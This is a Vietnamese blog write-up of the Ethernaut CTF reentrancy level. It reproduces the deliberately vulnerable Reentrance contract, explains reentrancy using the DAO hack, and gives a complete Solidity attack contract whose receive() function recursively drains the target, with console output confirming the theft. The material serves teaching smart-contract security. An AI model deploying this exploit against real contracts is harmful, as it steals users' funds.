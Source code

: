 ```yaml
---
title: "[Ethernaut CTF] Level 10: Reentrancy"
date: 2023-10-03 19:00:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel10.svg
---
```

# Level 10: Reentrancy
##  ★★★☆☆
Lần này chúng ta sẽ tìm hiểu về một trong những lỗi bảo mật iconic và nghiêm trọng nhất trong smart contract đó là reentrancy attack
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
## Reentrancy attack
- Trước khi đi vào phân tích challenge, ta cần hiểu thế nào là cuộc tấn công Reentrancy.
 - Reentracy attack là cuộc tấn công mà ở đó hacker sẽ cố gắng gọi đệ quy từ hàm rút tiền của contract, nếu contract không cẩn thận update số dư thì hacker sẽ withdraw toàn bộ tiền trong contract. 
 - Nó được thực hiện bằng cách là khi mà hacker thực hiện rút tiền từ contract, trong một contract khác ( theo ảnh dưới là Exploit contract) của hacker sẽ có fallback function mà trong fallback function đó lại tiếp tục call tới hàm ``withraw()``. Như vậy fallback function khi receive money sẽ tự động trigger và call withdraw, cứ thế lặp lại.
 
 -> thế là chúng ta vô một vòng đệ quy cho đến khi balance của contract được withdraw hết.
 ![](https://images.viblo.asia/6019738e-4648-490d-9033-8da8ae3ba291.png)
 
- Một trong những cuộc tấn công Reentrancy nổi tiếng là DAO hack, hacker đã đánh cắp 3,6 triệu ether ( hơn $50M USD ), điều này dẫn đến giá ETH bị crashed nghiêm trọng, buộc Ethereum phải tung một update quan trọng để fix. Và sự hình thành của đồng Ethereum classic bắt đầu từ đây.
- Bạn có thể đọc thêm về DAO hack tại [đây](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)   và các loại tấn công Reentrancy tại [đây](https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n)  
## Phân tích
- Đã gọi là low-level function thì đương nhiên nó sẽ luôn nguy hiểm, trường hợp ở đây của chúng ta là ``call``  
  
```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
- Để chuyển tiền, ngoài ``selfdestruct()`` như đã biết, chúng ta có 3 cách là ``tranfer``, ``send`` và ``call`` . Điều mà solidity luôn khuyến nghị dùng là ``tranfer`` vì nó luôn bị revert khi giao dịch lỗi , còn send và call thì không, chúng chỉ trả về ``true/false`` . 
- Một điều để biết nữa đó là ``tranfer`` và ``send`` sẽ luôn có gas limit là 2300, nghĩa là ta chỉ thuần tùy là chuyển tiền thôi mà không thể thực hiện thêm logic nào khác . Còn ``call`` thì không giới hạn gas -> Điểm để khai thác trong reentrancy attack

> Note: Solidity sẽ tính gas dựa trên độ phức tạp của code bạn
## Solution
**Target**: Rút hết balance của smart contract.
- Check balance thì ta thấy có 0.001 ether
```javascript
await getBalance(contract.address)
0.001

```

- Compile và deploy contract này trên remix,

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr)  {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate{value:msg.value}(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call{value:totalBalance}("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```
- Mình sẽ giải thích xíu về contract này sẽ tấn công như thế nào.
- Đầu tiên khi gọi donateAndWithdraw(), thì targetContract sẽ set value của ether ta gửi ``    balances[_to] = balances[_to].add(msg.value);``, sau đó hàm ``withdraw()`` sẽ được gọi và nó sẽ trigger fallback function là ``receive()`` và send số ether mà ta vừa gửi trở lại Attack contract . Vì hàm ``withdraw()`` vẫn chưa execute xong nên điều kiện ``balances[msg.sender] >= amount`` luôn đúng, ``withdraw()`` vẫn tiếp tục được gọi trong fallback function ở Attack Contract -> chúng ta vô đệ quy rút tiền.
- Cuối cùng, chúng ta dùng hàm withdrawAll() để rút hết balance có trong ``ReentranceAttack`` về ``player``.
- Check lại balance, nếu balance bằng 0 thì ta đã hoàn thành challenge này =))
```javascript
await getBalance(contract.address)
0
```
**Submit** -> Done
## Reference
- https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n
- https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- https://www.gemini.com/cryptopedia/the-dao-hack-makerdao



